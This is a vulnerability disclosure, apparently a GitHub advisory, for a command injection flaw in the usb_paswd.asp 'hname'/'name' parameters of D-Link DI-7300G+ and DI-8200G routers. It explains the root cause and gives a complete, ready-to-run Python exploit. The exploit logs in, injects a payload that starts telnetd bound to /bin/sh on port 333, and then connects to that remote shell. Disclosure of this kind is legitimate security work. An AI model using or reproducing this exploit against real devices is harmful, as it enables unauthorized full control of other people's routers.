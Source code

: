 **Vendor of the products:** D-Link

**Affected Device:** D-Link DI-7300G+、DI-8200G

**Version:** DI-7300G+ V19.12.25A1、DI_8200G-17.12.20A1

**Firmware Download:** http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-7300G%2B

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200G

 

**Vulnerability Description:** A command injection vulnerability was discovered in D-Link DI-7300G+ V19.12.25A1 and DI_8200G-17.12.20A1, triggered by the name and hname parameters in usb_paswd.asp. Attackers can exploit this vulnerability by crafting malicious packets to execute arbitrary commands, thereby gaining full control of the target device.



# POC:

**Functional interface:**

![img](assets/wps1.jpg) 

**request1：**

![img](assets/wps2.jpg) 

**request2:**

![img](assets/wps3.jpg) 

# Vulnerability Effect:

It can be observed that the router receives the request and successfully executes the command. The attacker can execute arbitrary commands.

![img](assets/wps4.jpg) 

![img](assets/wps5.jpg) 

# Vulnerability Cause:

The issue resides in the jhttpd component. In jhttpd, the program invokes the sub_4621DC function to handle requests related to usb_paswd.asp. The program first retrieves the user-input parameters name and hname via httpd_get_parm.

![img](assets/wps6.jpg) 

Next, the program uses nvram_set to set the values of usb_username and usb_husername to the parameters v5 and v7 input by the user from the frontend. Subsequently, the program retrieves the values of the usb_username and usb_husername fields from NVRAM via the jhl_nv_get_def function. These values are concatenated using the sprintf function and directly passed to the system function for execution. Since no security checks are performed during this process, it leads to a command injection vulnerability. Attackers can execute arbitrary commands and fully control the device by constructing malicious parameters.

![img](assets/wps7.jpg) 

 

# EXP:



```python
#!/usr/bin/env python3
import requests
import re
import os
import time
import argparse
from urllib.parse import quote
from getpass import getpass

requests.packages.urllib3.disable_warnings()

def parse_args():
    """Parse command-line arguments"""
    parser = argparse.ArgumentParser(description='D-link Exploit POC')
    parser.add_argument('-i', '--ip', default='192.168.0.1',
                       help='Target IP address (default: 192.168.0.1)')
    parser.add_argument('-u', '--username', default='admin',
                       help='Username (default: admin)')
    parser.add_argument('-p', '--password',
                       help='Password (will prompt if not provided)')
    parser.add_argument('-P', '--port', type=int, default=80,
                       help='HTTP port (default: 80)')
    parser.add_argument('-t', '--telnet-port', type=int, default=333,
                       help='Telnet port to open (default: 333)')
    return parser.parse_args()

def get_password(args):
    """Get password securely"""
    if args.password:
        return args.password
    return getpass(f"Enter password for {args.username} (default: admin): ") or "admin"

def build_url(ip, port, path):
    """Construct full URL"""
    return f"http://{ip}:{port}{path}"

def login(args):
    """Authenticate and get session cookies"""
    url = build_url(args.ip, args.port, "/login.cgi")
    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "keep-alive",
    }

    data = {
        "user": args.username,
        "password": args.password
    }

    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        print(f"\n[+] Login Status: {response.status_code}")
        
        cookies = response.cookies.get_dict()
        if 'Set-Cookie' in response.headers:
            gw_cookie = re.search(r'gw_userid=([^;]+)', response.headers['Set-Cookie'])
            if gw_cookie:
                cookies['gw_userid'] = gw_cookie.group(1)
        return cookies
        
    except Exception as e:
        print(f"[-] Login failed: {str(e)}")
        return None

def execute_command(args, cookies):
    """Exploit command injection"""
    command = f"$(telnetd%20-l%20/bin/sh%20-p%20{args.telnet_port})"
    url = build_url(args.ip, args.port, f"/usb_paswd.asp?share_enable=1&hname={command}&passwd=")
    

    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": f"userid={args.username}; gw_userid={cookies.get('gw_userid', '')}",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }

    try:
        print(f"\n[+] Sending exploit request: {url}")
        response = requests.get(url, headers=headers, verify=False, allow_redirects=False)
        
        print(f"[+] Exploit status: {response.status_code}")
        if response.headers.get('Set-Cookie'):
            print(f"[+] Response Set-Cookie: {response.headers.get('Set-Cookie')}")
        
        return True
    except Exception as e:
        print(f"[-] Exploit failed: {str(e)}")
        return False

def connect_telnet(ip, port):
    """Establish telnet connection"""
    print(f"\n[+] Attempting to connect via telnet to {ip}:{port}...")
    print("[+] If connection fails, try manually:")
    print(f"    telnet {ip} {port}")
    time.sleep(2)
    os.system(f"telnet {ip} {port}")

def main():
    args = parse_args()
    args.password = get_password(args)

    print(f"\n[+] Target: {args.ip}:{args.port}")
    print(f"[+] Credentials: {args.username}:{'*' * len(args.password)}")
    print(f"[+] Will open telnet on port: {args.telnet_port}")

    cookies = login(args)
    if not cookies:
        return

    if execute_command(args, cookies):
        connect_telnet(args.ip, args.telnet_port)

if __name__ == "__main__":
    main()
```



 

 

 

 